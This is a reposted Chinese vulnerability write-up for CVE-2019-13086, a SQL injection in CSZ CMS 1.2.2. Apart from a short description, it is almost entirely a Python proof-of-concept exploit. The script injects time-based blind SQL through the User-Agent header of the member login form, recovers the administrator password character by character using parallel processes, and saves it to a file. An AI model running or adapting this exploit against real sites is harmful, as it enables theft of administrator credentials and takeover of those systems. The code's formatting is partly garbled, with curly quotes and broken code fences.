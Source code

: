 # （CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2860](https://www.zhihuifly.com/t/topic/2860)

# （CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞

## 一、漏洞简介

CSZ CMS是一套基于PHP的开源内容管理系统（CMS）。 CSZ CMS 1.2.2版本（2019-06-20之前）中的core/MY_Security.php文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

CSZ CMS 1.2.2版本（2019-06-20之前）

## 三、复现过程

### poc

```
import requests
import time
import threading
import multiprocessing

pool=“admin$ABCDEFGHIJKLMNOPQRSTUVWXYZ”+" "+“bcefghjklopqrstuvwxyz1234567890/.”

mutex=0

#获取长度用的User-Agent模板

ual="’-(if((length((select name from user_admin limit 1))=10),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

#“Why don’t you just build something”

#----------------------------------------------------获取管理员用户名长度--------------------------------------------

def getlength(field,tbname,total):

ual_head="’-(if((length((select "		#这些空格一定要保留

ual_middle=" limit 1))="

num=1

ual_last="),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

```
datas={'email':'111@111.com',
	'password':'111'
}

header={'Host': 'localhost',
		'Content-Length': '74',
		'Cache-Control': 'max-age=0',
		'Origin': 'http://localhost',
		'Upgrade-Insecure-Requests': '1',
		'Content-Type': 'application/x-www-form-urlencoded',
		'User-Agent': ual,
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
		'Referer': 'http://localhost/cszcms/member/login',
		'Accept-Encoding': 'gzip, deflate',
		'Accept-Language': 'zh-CN,zh;q=0.9',
		'Connection': 'close'}

starttime=time.time()
for num in range(total):
	header['User-Agent']=ual_head+field+" from "+tbname+ual_middle+str(num)+ual_last
	#print(header['User-Agent'])
	sendtime=time.time()
	response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
	recvtime=time.time()

	doesitwork=recvtime-sendtime
	if(doesitwork&gt;5):
		print("The length is",num)
		print("This step cost:",time.time()-starttime)
		return num
		break
	if(num==total-1):
		return 0 
```

#获取内容用的User-Agent模板

ua="’-(if((ascii(substr((select name from user_admin limit 1), 1, 1))=97),sleep(5),1))-’’, ‘127.0.0.1’,‘time’) #"

#-----------------------------------------------------获取管理员用户名--------------------------------------------

def getcontent(field,tbname,num,qr,lock):

```
#print(num)
pool="@.tescomadin$ABCDEFGHIJKLMNOPQRSTUVWXYZ"+" "+"bcefghjklpqrstuvwxyz1234567890/."

result=[]

ua_head="'-(if((ascii(substr((select "
ua_front=" limit 1), "
ua_middle=", 1))="
char="A"
ua_last="),sleep(5),1))-'', '127.0.0.1','time') #"

datas={'email':'111@111.com',
	'password':'111'
}

header={'Host': 'localhost',
		'Content-Length': '74',
		'Cache-Control': 'max-age=0',
		'Origin': 'http://localhost',
		'Upgrade-Insecure-Requests': '1',
		'Content-Type': 'application/x-www-form-urlencoded',
		'User-Agent': ua,
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
		'Referer': 'http://localhost/cszcms/member/login',
		'Accept-Encoding': 'gzip, deflate',
		'Accept-Language': 'zh-CN,zh;q=0.9',
		'Connection': 'close'}

for i in range(1):
	for char in pool:
		header['User-Agent']=ua_head+field+" from "+tbname+ua_front+str(num+1)+ua_middle+str(ord(char))+ua_last
		#print(header['User-Agent'])

		lock.acquire()
		sendtime=time.time()
		response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
		lock.release()

		recvtime=time.time()

		doesitwork=recvtime-sendtime
		if(doesitwork&gt;5):
			#print("It cost:",doesitwork)
			print(num," got:",char)
			#adminnamelist[num]=char	
			result=[num,char]
			qr.put(result)
			break 
```

#---------------------------------------------现在！让我们重新揭起救世的大旗！------------------------------------

if **name**==‘**main**’:

```
qr=multiprocessing.Queue()
lock=multiprocessing.Lock()

field="password"
tbname="user_admin"

adminname=""
adminpwd=""

getresult=[]

#调用获得长度的函数
length=getlength(field,tbname,100)	
print("length is",length)

processes=[]

#开线程分别对每个字符匹配
timehead=time.time()

for ti in range(length):
	processes.append(multiprocessing.Process(target=getcontent,args=(field,tbname,ti,qr,lock)))
	processes[ti].start()

for ti in range(length):
	processes[ti].join()

fout=open(field+"out.txt","w+")
for ci in range(length):
	getresult.append(qr.get())
print(getresult)
for ci in range(length):
	for result in getresult:
		if(result[0]==ci):
			print(result[1])
			adminname+=result[1]

fout.write(adminname)
print(field,":",adminname)
fout.close()
print("It took:",time.time()-timehead) 
``` 
```